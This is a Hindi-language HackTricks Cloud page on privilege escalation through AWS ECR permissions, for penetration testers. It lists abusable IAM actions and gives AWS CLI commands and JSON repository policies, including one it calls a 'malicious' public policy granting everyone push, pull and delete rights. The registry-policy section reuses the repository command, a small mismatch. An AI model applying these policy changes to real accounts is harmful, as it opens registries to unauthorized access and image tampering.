 # AWS - ECR विशेषाधिकार बढ़ाना

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks प्रशिक्षण AWS रेड टीम विशेषज्ञ (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks प्रशिक्षण GCP रेड टीम विशेषज्ञ (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>हैकट्रिक्स का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) की जाँच करें!
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 पर **फॉलो** करें [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें, PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रेपो में।

</details>
{% endhint %}

## ECR

### `ecr:GetAuthorizationToken`,`ecr:BatchGetImage`

एक हमलावर **`ecr:GetAuthorizationToken`** और **`ecr:BatchGetImage`** के साथ ECR में लॉगिन कर सकता है और छवियाँ डाउनलोड कर सकता है।

छवियाँ कैसे डाउनलोड करें के बारे में अधिक जानकारी के लिए:

{% content-ref url="../aws-post-exploitation/aws-ecr-post-exploitation.md" %}
[aws-ecr-post-exploitation.md](../aws-post-exploitation/aws-ecr-post-exploitation.md)
{% endcontent-ref %}

**संभावित प्रभाव:** ट्रैफिक में संवेदनशील जानकारी को आधारित विशेषाधिकार द्वारा अप्रत्यक्ष वृद्धि।

### `ecr:GetAuthorizationToken`, `ecr:BatchCheckLayerAvailability`, `ecr:CompleteLayerUpload`, `ecr:InitiateLayerUpload`, `ecr:PutImage`, `ecr:UploadLayerPart`

उन सभी अनुमतियों के साथ एक हमलावर **ECR में लॉगिन कर सकता है और छवियाँ अपलोड कर सकता है**। यह उन वातावरणों में विशेषाधिकारों को उन्नत करने के लिए उपयोगी हो सकता है जहां उन छवियाँ उपयोग की जा रही हैं।

नई छवि अपलोड/अपडेट करने के लिए कैसे सीखें, इसकी जाँच करें:

{% content-ref url="../aws-services/aws-eks-enum.md" %}
[aws-eks-enum.md](../aws-services/aws-eks-enum.md)
{% endcontent-ref %}

### `ecr-public:GetAuthorizationToken`, `ecr-public:BatchCheckLayerAvailability, ecr-public:CompleteLayerUpload`, `ecr-public:InitiateLayerUpload, ecr-public:PutImage`, `ecr-public:UploadLayerPart`

पिछले खंड की तरह, लेकिन सार्वजनिक रिपॉजिटरी के लिए।

### `ecr:SetRepositoryPolicy`

इस अनुमति के साथ एक हमलावर **भंडार** **नीति** को **बदल सकता है** ताकि वह खुद को (या यहाँ तक ​​कि सभी को) **पढ़ने/लिखने का अधिकार** प्रदान कर सके।\
उदाहरण के लिए, इस उदाहरण में सभी को पढ़ने का अधिकार दिया गया है।
```bash
aws ecr set-repository-policy \
--repository-name <repo_name> \
--policy-text file://my-policy.json
```
संबंधित विषयों का विवरण:
```json
{
"Version" : "2008-10-17",
"Statement" : [
{
"Sid" : "allow public pull",
"Effect" : "Allow",
"Principal" : "*",
"Action" : [
"ecr:BatchCheckLayerAvailability",
"ecr:BatchGetImage",
"ecr:GetDownloadUrlForLayer"
]
}
]
}
```
### `ecr-public:SetRepositoryPolicy`

पिछले खंड की तरह, लेकिन सार्वजनिक रिपॉजिटरी के लिए।\
हमलावर एक ECR सार्वजनिक रिपॉजिटरी की रिपॉजिटरी नीति को संशोधित कर सकता है ताकि अनधिकृत सार्वजनिक पहुंच या अपने विशेषाधिकारों को बढ़ा सके।

{% code overflow="wrap" %}
```bash
bashCopy code# Create a JSON file with the malicious public repository policy
echo '{
"Version": "2008-10-17",
"Statement": [
{
"Sid": "MaliciousPublicRepoPolicy",
"Effect": "Allow",
"Principal": "*",
"Action": [
"ecr-public:GetDownloadUrlForLayer",
"ecr-public:BatchGetImage",
"ecr-public:BatchCheckLayerAvailability",
"ecr-public:PutImage",
"ecr-public:InitiateLayerUpload",
"ecr-public:UploadLayerPart",
"ecr-public:CompleteLayerUpload",
"ecr-public:DeleteRepositoryPolicy"
]
}
]
}' > malicious_public_repo_policy.json

# Apply the malicious public repository policy to the ECR Public repository
aws ecr-public set-repository-policy --repository-name your-ecr-public-repo-name --policy-text file://malicious_public_repo_policy.json
```
{% endcode %}

**संभावित प्रभाव**: ECR सार्वजनिक रिपॉजिटरी तक अनधिकृत सार्वजनिक पहुंच, जिससे किसी भी उपयोगकर्ता को छवियाँ पुश, पुल, या हटाने की अनुमति मिल सकती है।

### `ecr:PutRegistryPolicy`

इस अनुमति वाले हमलावर खुद को, अपने खाते को (या यहाँ तक कि सभी को) पढ़ने/लिखने की पहुंच प्रदान करने के लिए **रजिस्ट्री नीति** को **बदल** सकता है।
```bash
aws ecr set-repository-policy \
--repository-name <repo_name> \
--policy-text file://my-policy.json
```
{% hint style="success" %}
**AWS हैकिंग सीखें और अभ्यास करें:**<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks प्रशिक्षण AWS रेड टीम विशेषज्ञ (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
**GCP हैकिंग सीखें और अभ्यास करें:** <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks प्रशिक्षण GCP रेड टीम विशेषज्ञ (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>हैकट्रिक्स का समर्थन करें</summary>

* [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) की जाँच करें!
* 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) ज्वाइन करें या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रेपो में PR जमा करके हैकिंग ट्रिक्स साझा करें।

</details>
{% endhint %}
